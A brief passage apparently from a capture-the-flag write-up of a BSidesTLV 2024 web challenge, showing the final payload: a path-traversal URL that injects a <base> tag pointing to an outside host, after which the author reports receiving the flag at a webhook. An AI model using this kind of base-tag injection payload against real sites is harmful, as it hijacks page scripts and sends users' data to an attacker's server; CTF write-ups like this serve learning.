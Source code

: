 ```/api/..%2F?note=<base id="isDevelopment" href="https://x55.is/">```
and we got the flag at the webhook!!!!!

![image](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/BSidesTLV2024/Pasted%20image%2020240628122447.png?raw=true)

That was a very great web challenge :)
